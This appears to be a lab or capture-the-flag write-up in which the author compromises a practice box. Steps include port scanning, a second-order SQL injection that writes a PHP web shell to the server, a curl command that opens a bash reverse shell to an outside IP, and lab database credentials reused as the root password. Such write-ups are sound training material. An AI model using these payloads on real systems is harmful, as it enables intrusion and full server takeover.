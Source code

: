 1, Enumerate the port 
22/tcp ssh
80/tcp http
4556/tcp http
8080/tcp http

2, Check these websites
port 80 :fuzz the web-content : but there is nothing useful for us
port 4566 :it give us the code 403 forbidden, so we guess it need cookies or something.
![[Pasted image 20240731024054.png]]
we have tried some existed user cookie, but it did not work.
So this port would be especially for admin or manager.

come to the main website,it use POST method to account.php.
then we can check our input on the next page, so we can try to get some SSTI vulners .

for the cookie, we can check its progress of creation.

3,exploition
Let's try some Sqlite injection
When we take `username=admin&country=Brazil'
the account.php would give us some error messages:
`**Fatal error**: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in **/var/www/html/account.php** on line **33**`

So it clearly give us some evidence of sql injection has happened and it was a second order sql injection.

Let's exploit it and try to reverse a shell for us.
We can make a sqlite script or we can still use the burpsuite repeater.

The union select would be great but it would be very hard to check everything by ourselves.
`username=admin&country=Brazil' UNION SELECT 1-- -`
So we can make a file by using sql .
`username=admin&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
`'/var/www/html/shell.php'-- -`
then curl it and get the web shell and use it to make the reverse shell.
`curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.3/443 0>&1"'`

4, enumerate the server and check the files.
firstly , the config.php has give us some useful infomation
	`  $servername = "127.0.0.1";
	  `$username = "uhc";
	  `$password = "uhc-9qual-global-pw";
	  `$dbname = "registration";`
	`$conn = new mysqli($servername, $username, $password, $dbname);`
So let's check the database and get some credits.

But there is nothing interesting in registration database!!!!!
So let's check another database mysql.
So upset , there is no passwords for local users or root.

But there is something surprise me, the root password is same as the database password!

then we can get root shell!


5, beyond the root.
when we try to exploit sql injection, If we do not have permission to write to the file, we can only use UNION select to enumerate the database, but manual operation is too inefficient, so we can use a script to save time.


